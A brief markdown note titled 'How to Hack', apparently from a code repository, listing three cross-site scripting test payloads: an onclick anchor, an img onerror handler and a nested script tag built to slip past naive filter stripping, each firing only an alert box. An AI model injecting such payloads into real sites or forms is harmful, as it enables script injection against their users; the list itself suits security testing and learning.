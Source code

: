 # How to Hack

- Some exploit payloads:
    - <a href="" onclick="alert('XSS!');">Click Me<a/>
    - E.g. this also works, and requires less user interaction: <img src="x" onerror="alert(1)"> 
    - This also works: <scrip<​script><​/script>t>alert("XSS")<​/script>
